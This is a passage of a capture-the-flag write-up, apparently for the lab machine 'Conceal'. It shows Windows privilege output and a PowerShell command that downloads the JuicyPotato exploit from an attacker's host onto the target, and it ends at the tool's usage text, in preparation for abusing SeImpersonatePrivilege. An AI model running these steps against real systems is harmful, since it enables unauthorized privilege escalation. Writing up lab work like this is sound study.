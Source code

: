 ```aaa
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

PS C:\users> whoami : ERROR: Unable to get user claims information.
At line:1 char:1
+ whoami /all
+ ~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (ERROR: Unable t...ms information.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

---

## Privilege escalation: exploiting SeImpersonatePrivilege with JuicyPotato

I decided to use JuicyPotato, so after downloading the source from [GitHub](https://github.com/ohpe/juicy-potato) I compiled it with Visual Studio and dropped the binary on my Parrot box, then downloaded it on Conceal:

```aaa
PS C:\users\destitute\downloads> iwr http://10.10.14.37:9090/JuicyPotato.exe -outfile ./juicy.exe
PS C:\users\destitute\downloads> dir

    Directory: C:\users\destitute\downloads

Mode                LastWriteTime         Length Name 
----                -------------         ------ ---                                                                  
-a----       04/09/2019     17:24         335360 juicy.exe    
```

We can see the required parameters to run it just by launching the program:

```aaa
PS C:\users\destitute\downloads> ./juicy.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
